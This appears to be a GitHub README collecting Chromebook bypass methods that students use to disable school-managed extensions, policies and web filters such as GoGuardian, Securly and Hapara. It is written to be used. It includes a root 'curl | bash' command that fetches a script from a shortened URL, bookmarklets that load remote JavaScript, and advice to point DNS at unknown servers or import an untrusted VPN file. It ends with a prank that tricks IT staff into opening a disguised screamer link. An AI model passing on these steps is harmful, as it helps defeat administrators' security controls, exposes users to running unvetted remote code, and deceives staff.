It works by loading a custom user policy into chromeOS. (Similar to how policies on windows work.)  

Using this we can either disable RootFS permanently or temporarily to load it.  

CrOS does not have the folder to load it built-in, however, the src code is still there so we can manually create it.  

Then simply we just create the file and restart.

Credits
- Pollen Developer - Scaratek
- Discovery - Rafflesia
- Original Script Developer - OlyB
- Logo - Nitelite
- Fixed Bug - r58playz
- Added Policies - 5less-chromosones

To make your own modifications refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

Further reading:
- https://github.com/MercuryWorkshop/Pollen

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: https://github.com/MercuryWorkshop/Pollen 

It removes all admin-installed extensions and that's kinda a problem for me so this is edited it to make it fit more for SH1mmer users

So I customized this one to edit lots of features  but to keep all admin-installed extensions

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation:             (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs:   (set it so when you open a new window some schools force it to also open the school's homepage so its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
sudo su
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO REDO THE PROCESS

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill the extension by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capitalized.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, YouTube, and any Google service.
6. All extensions should stop working.
7. Note that you must repeat this every time you restart or sign out.
8. If your Chrome version is `v112`, this exploit will no longer work, the bypass to this is listed further on. Visit`chrome://settings/resetProfileSettings` click current settings, and it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.
`
**This was discovered by Zoroark**
</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's [README](https://github.com/ading2210/shimboot).**

Further reading:
- https://shimboot.ading.dev/
- https://github.com/ading2210/shimboot

Credit to [vk6](https://ading.dev/) for this exploit
</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode being blocked press enter then you will go to a newly restarted Chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to chrome://settings/signOut

8. click Turn off sync and personalization and then turn wifi back on and go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps

Note: Before you do any of the method 4 tricks only do this at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**

1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.
2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.
3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.
4. Create another bookmark called D. Click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.
5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B. Then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop-up called `Do you want to close this page?` click cancel now boom that website is unblocked until you turn off your Chromebook or until you exit out of that website then if that happens your gonna have to do all the steps again.

An easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))` Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.
  
Name of Bookmarklet > Unblock Website: `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))`

Note: Save `chrome-extension://Paste` the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

1. make a bookmark called tab close blocker now click more on the bottom left corner in that URL BOX put `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.
3. do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now and scroll down until you find more tools click that and now find Task Manager click it now boom done with step 3.
4. find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the new page and click enter now quickly spam the bookmark tab close blocker Now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.
  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End Process button for the task manager is blocked your double screwed.
  </details>
  
  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Server: Server 1. 52.207.185.90

1. Go to your settings
2. Click on the wifi your using rn then click it again.
3.  Scroll down until you see network once you see the option click it.
4. Scroll down until you find custom name servers now once you find the option click it.
5. Paste in the IP Server.
6. Now there should be a notification saying open a new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for tests
7. Go back to the network settings and change the custom name servers to automatic name servers.

Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.
If you close out of the Incognito Tab you will have to do all the steps again.
Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School
</details>
<details>
<summary><b>Quick View</b> Bypass Extensions</summary>
**QuickView is a universal web view exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**
Go here and follow the instructions: https://quickview-exploit.pages.dev/
WARNING: If javascript:// is blocked then you can't perform this exploit

</details>

<details>
<summary><b>School Network Restriction Bypass</b> Bypass School Network Restrictions</summary>
IP Server 1: 8.8.8.8 in all boxes
IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth boxes stay 0.0.0.0

1. Go to your settings
2. Click on the wifi you using right now then click it again.
3.  Scroll down until you see the network once you see the option click it.
4. Scroll down until you find custom name servers once you find the option click it.
5. Paste in one of the IP Servers.
Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work you're screwed

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh</summary>

1. Back up any data you want before the powerwash.
2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions since sometimes that will fail and require you to specify each extension you want to disable.
3. Powerwash by attempting to enable developer mode. Instructions are available here: [this link](https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode)
4. Log into your Google account as normal, but immediately disable your internet right after you sign in.
5. You should be logged into your account, but without any extensions installed due to being offline.
Here the instructions are split, so follow the one for the method that you want to do.
 
Disable All Extensions:
1. Open up crosh by hitting ctr+alt+t.
2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`
3. Run that command.
4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.
5. Re-enable your internet, and no extensions should be installed.
 

Disable Specific Extensions:
1. Navigate to `chrome://extensions`.
2. Enable your internet, and immediately disable it when an extension is installed.
3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.
4. Open up crosh by hitting ctr+alt+t.
5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`
6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`
7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Made by vk6

</details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html), scroll down and find userResourcesLocation now change userResourcesLocation from unset to <a href="https://pastebin.com/raw/PPZ1T7uh">https://pastebin.com/raw/PPZ1T7uh</a>

5. in the My filters tab of the settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html), add *##+js(execute_script.js) as a filter

6. now you can press ctr+alt+tilde (~) to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

</details>

<details>
<summary><b>Incognito on Sign-In</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. `52.207.185.90`
            Server 2. `158.111.114.159`

1. On the sign-in screen go to your Wi-Fi settings and click on the wifi you are using right now.
2. Then Scroll down until you see network once you see the option click it.
3. Scroll down until you find custom name servers once you find the option click it.
4. Paste in the IP Servers
5. Now on the network settings click the sign in and you should be in a small window with some instructions, there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Facts About Incognito Mode:
1. No Extensions.
2. Your History Is Hidden From Your School*

*If your school does not have network logs or anything like that

</details>
<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
  Step 1 go to the chrome-extension://Paste the blocker id here/manifest.json page.
Step 2 go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.
Step 3 go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.
Step 4 create another bookmark called D click more In the URL Box copy and paste  javascript:(function () {window.onbeforeunload = function() { return 1; };})()    Into that URL Box and save that bookmark.
Step 5 go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>
Step 1 make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  javascript:(function () {window.onbeforeunload = function() { return 1; };})()
Step 2 go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.
Step 3 do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.
Step 4 find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: 
  Server 1. 52.207.185.90
  Server 2. 158.101.114.159
Step 1. Go to your settings
Step 2. Click on the wifi your using rn then click it again.
Step 3.  Scroll down until you see network once you see the option click it.
Step 4. Scroll down until you find custom name servers now once you find the option click it.
Step 5. Paste in the IP Server.
Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Google System Method</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`
Step 2. Click ok on the bottom right corner
Step 3. In the Email text box put `google@d11.org`
Step 4. Click `signin options`
Step 5. Now click signin with github
Step 6. Click the github cat icon
Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
  <summary><b>Ingot</b></summary>

Disable Extensions


1. Show your bookmarks bar with `ctrl + shift + b`

2. Right click on the bar and choose `Add Page`

3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/neealdon3/Exploits-and-Hacks/blob/main/ingot.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```

  
</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh</summary>

1. Back up any data you want before the powerwash.
2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.
3. Powerwash by attempting to enable developer mode. Instructions are available here: [this link](https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode)
4. Log into your Google account as normal, but immediately disable your internet right after you sign in.
5. You should be logged into your account, but without any extensions installed due to being offline.
Here the instructions are split, so follow the one for the method that you want to do.
 
Disable All Extensions:
1. Open up crosh by hitting ctr+alt+t.
2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`
3. Run that command.
4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.
5. Re-enable your internet, and no extensions should be installed.
 

Disable Specific Extensions:
1. Navigate to `chrome://extensions`.
2. Enable your internet, and immediately disable it when an extension is installed.
3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.
4. Open up crosh by hitting ctr+alt+t.
5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`
6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`
7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Made by vk6

</details>

<details>
<summary><b>chrome-signin webview/Google system method</b> Yet another webview bypass</summary>
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `sign in options`
5. Now click sign in with GitHub
6. Click forgot password
7. Now Click the GitHub logo
8. In the search box on the top right type Google and then on the right you will see Google links click `www.google.com`
9. Profit

</details>

<details>
<summary><b>chrome-signin webview 2</b> Yet another webview bypass</summary>
Unblocked Google
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6 Click forgot password instead of the GitHub logo
7. Click docs
8. Scroll down
9. Click Ask the GitHub community
10. Search Google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, if it doesn't already, go back to that link

Then, hit Launch VM Mode

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but Discord 100% works

</details>

<details>
<summary><b>Quick View Exploit</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If javascript:// is blocked then you can't preform this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original GitHub repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here are 3 alternative websites for the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one
Step 2. Open it
Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus
Step 4. After you click goto select your district in the bottom right corner of the page
Step 5. Select “STRATFORD FRIENDS SCHOOL” 
Step 6. Click the arrow to the right of the selection box
Step 7. Click sign in options
a) Click sign in with github
Step  8. Click the github logo at the top of the screen
Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay
Step 11. Scroll down until you see DerDer56/googleyay
Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool
(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"
Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>Temporary Disable GoGuardian using a dns</b> Temporarily Disable GoGuardian</summary>

This method will remove GoGuardian from your Chromebook and keep it off, until you switch to a non-DNS wifi

1 - Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter from then on

2 - Immediately after you add wifi to your Chromebook add the DNS record 158.101.114.159

A) Click on the menu at the bottom right of the screen and Click the Settings icon, go to your wifi, scroll to the bottom and open the networks dropdown, choose the "Custom name server" bubble, change the first box to 158.101.114.159

</details>

<details>
<summary><b>Insecurly</b> Disable Or Bypass Securly</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://insecurly.bypassi.com/">this link</a> and follow instructions

If blocked then go cry in a corner
</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions
</details>

<details>  
<summary><b>Network Bypassing</b> A bypass for any network filters.</summary>

ONLY FOR NETWORK FILTERS. A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 
</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: [filtersessionbypass.txt](filtersessionbypass.txt)

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.
</details>

boop



If you are a student who believes in privacy and freedom, heres a tutorial on how to annoy your IT manager: Send them emails to approve this website since it is required for doing a project/homework assignment: "https://stock-images.0o.si/?p#/old-man-tries-to-climb-ladder-falls-down-and-eats-cookie-2298498123". It is recommended to shorten the link with bit.ly, ad.fly, or gg.gg or any other shortner as they might get suspicious looking at the URL. Once they click on the website and press the popup they will be met with an obxniously loud sound (aka a screamer).
